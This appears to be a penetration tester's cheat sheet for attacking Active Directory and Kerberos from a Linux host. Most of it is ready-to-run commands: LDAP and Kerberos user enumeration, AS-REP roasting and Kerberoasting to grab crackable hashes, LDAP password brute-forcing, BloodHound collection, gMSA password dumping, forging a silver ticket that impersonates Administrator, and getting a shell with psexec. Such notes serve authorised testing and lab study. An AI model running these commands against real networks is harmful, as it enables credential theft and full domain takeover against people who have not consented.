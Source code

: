 # example attack

1. check smb if some generic user is allowed to access
2. check sids for user list: impacket-lookupsid generic@$rhost
3. AS_REP: impacket-GetNPUsers '$DOMAIN/' -usersfile users.txt -no-pass -dc-ip $rhost -outfile asrep.hash
4. crack hash
5. Kerberoasting (requires credentials) (can output hashes for new users): impacket-GetUserSPNs 'full.domain/some_user:some_password' -outputfile keberoast.hash -dc-ip $rhost
6. crack hash

# linux attacker

## enumerate LDAP

```bash
nmap -n -sV --script "ldap* and not brute" -p 389 $rhost
```

## enumerate users with kerberos

```bash
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<some.domain>',userdb=/usr/share/seclists/Usernames/cirt-default-usernames.txt $rhost
```

## enumerate with AS_REP message

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <some.domain>/ -usersfile /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt -format hashcat -outputfile hashes.asreproast
```

## bruteforce ldap

```bash
crackmapexec ldap $rhost -u users.txt --kdcHost $rhost -p 'some.password'
```

## gather information for bloodhound (with valid creds)

```bash
bloodhound-python -u 'user_name' -p 'user_password' -dc "dc.domain.tld" -d "domain.tld" -ns "$rhost" -c ALL
```

# Permissions/Groups

## ReadGMSAPassword

GMSAPassword allows users to read Passwords from other users.
This can be used to get the kerberos hashes/tickets.

```bash
python3 gMSADumper.py -u user_name -p user_password -d domain.tld
```
# Kerberos

## get time 

```bash
sudo ntpdate -q "$rhost"
```

## Update clock

Kerberos is pretty much dependend on accurate time for server and clint so be sure to update the clock:

```bash
sudo ntpdate "$rhost"
```

## Or via faketime

```bash
export FAKETIME="2020-01-01 12:12:12"
export FAKETIME="+8h"
export LD_PRELOAD=/usr/local/lib/faketime/libfaketime.so.1
```

## Generate Silber Ticket from hash

```bash
python3 /usr/share/doc/python3-impacket/examples/getST.py -spn WWW/dc.domain.tld -impersonate Administrator domain.tld/user$ -hashes some_hash:some_hash
impacket-getST -spn WWW/dc.domain.tld -impersonate Administrator domain.tld/user$ -hashes some_hash:some_hash
```

### Use ticket (impacket-psexec)

```bash
KRB5CCNAME=Administrator.ccache impacket-psexec -k -no-pass -dc-ip "$rhost" -target-ip "$rhost" domain.tld/Administrator@dc.domain.tld
kRB5CCNAME=Administrator.ccache python3 /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass -dc-ip "$rhost" -target-ip "$rhost" domain.tld/Administrator@dc.domain.tld
```
